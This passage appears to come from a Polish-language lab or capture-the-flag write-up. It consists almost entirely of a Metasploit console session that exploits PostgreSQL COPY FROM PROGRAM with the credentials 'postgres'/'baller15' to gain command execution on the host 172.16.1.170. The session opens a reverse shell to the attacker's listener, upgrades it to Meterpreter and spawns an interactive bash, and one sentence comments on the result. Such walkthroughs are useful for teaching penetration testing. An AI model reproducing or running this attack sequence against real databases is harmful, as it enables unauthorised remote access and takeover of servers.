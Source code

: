 ```bash
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set lhost eth0
lhost => 172.16.1.89
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set rhosts 172.16.1.170
rhosts => 172.16.1.170
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set password baller15
password => baller15
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set username postgres
username => postgres
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 172.16.1.89:4444 
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > [*] 172.16.1.170:5432 - 172.16.1.170:5432 - PostgreSQL 15.3 (Debian 15.3-0+deb12u1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 12.2.0-14) 12.2.0, 64-bit
[*] 172.16.1.170:5432 - Exploiting...
[+] 172.16.1.170:5432 - 172.16.1.170:5432 - eex0NuYYivV dropped successfully
[+] 172.16.1.170:5432 - 172.16.1.170:5432 - eex0NuYYivV created successfully
[+] 172.16.1.170:5432 - 172.16.1.170:5432 - eex0NuYYivV copied successfully(valid syntax/command)
[+] 172.16.1.170:5432 - 172.16.1.170:5432 - eex0NuYYivV dropped successfully(Cleaned)
[*] 172.16.1.170:5432 - Exploit Succeeded
[*] Command shell session 1 opened (172.16.1.89:4444 -> 172.16.1.170:37714) at 2023-11-21 21:01:16 +0100

msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions 

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               172.16.1.89:4444 -> 172.16.1.170:37714 (172.16.1.170)


msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 172.16.1.89:4433 
[*] Sending stage (1017704 bytes) to 172.16.1.170
[*] Meterpreter session 2 opened (172.16.1.89:4433 -> 172.16.1.170:56320) at 2023-11-21 21:02:25 +0100
[*] Command stager progress: 100.00% (773/773 bytes)
 ```
Dzięki modułowi **postgres_copy_from_program_cmd_exec** można wejść na konsolę maszyny. Inaczej trzeba byłoby kombinować, np. wchodząc bezpośrednio na maszynę.
{: .text-justify}
```bash
msf6 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions 1
[*] Starting interaction with 1...

shell

[*] Trying to find binary 'python' on the target machine
[-] python not found
[*] Trying to find binary 'python3' on the target machine
[*] Found python3 at /usr/bin/python3
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash

```